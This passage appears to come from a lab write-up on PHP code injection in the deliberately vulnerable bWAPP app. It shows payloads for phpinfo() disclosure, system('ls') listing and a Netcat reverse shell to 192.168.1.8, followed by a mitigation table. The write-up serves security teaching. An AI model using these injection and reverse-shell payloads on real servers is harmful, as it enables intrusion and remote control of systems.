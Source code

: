 
## 6. How the Attack is Performed

### Case 1 – Information Disclosure
1. Navigate to `PHP Code Injection` in bWAPP.  
2. Set security level to **low**.  
3. Inject payload in `message` parameter:
```
phpinfo()
```
<img width="752" height="466" alt="image" src="https://github.com/user-attachments/assets/3be5227a-5924-4a94-81b5-0d6d75b8268f" />

4. Server executes PHP code and displays detailed environment info (PHP version, server paths, etc.).  
<img width="752" height="426" alt="image" src="https://github.com/user-attachments/assets/7405fc22-18b8-4af1-9216-7e71c0aa1352" />

---

### Case 2 – Directory Listing via system()
1. Inject payload:
```
system('ls')
```
2. Server executes system command and lists web application files.
<img width="752" height="355" alt="image" src="https://github.com/user-attachments/assets/bae3da8c-3280-4a2e-bcf8-66f49ea5e7a8" />

### Case 3 – Remote Shell Access (RCE)
1. Start Netcat listener:
```
nc -lvp 4444
```
2. Inject payload:
```
system('nc 192.168.1.8 4444 -e /bin/bash')
```
<img width="752" height="295" alt="image" src="https://github.com/user-attachments/assets/3e2c9306-a95f-459a-9259-84d1119bf01c" />

3. Gain interactive shell as `www-data` user.
<img width="752" height="393" alt="image" src="https://github.com/user-attachments/assets/e070f8d0-9552-436c-9b32-1eb255868c0c" />

---

## 7. Prevention & Mitigation

| Method | Description |
|--------|-------------|
| **Disable Dangerous PHP Functions** | Disable `eval`, `system`, `exec`, `passthru`, `shell_exec` in `php.ini`. |
| **Input Validation** | Reject any input containing PHP code execution characters. |
| **Output Encoding** | Encode user data before rendering in the browser. |
| **Least Privilege Principle** | Run the web server as a restricted user (not root). |
| **Web Application Firewall (WAF)** | Detect and block suspicious payloads in HTTP requests. |
| **Security Testing** | Regularly test for code injection flaws with tools like Burp Suite or OWASP ZAP. |

---
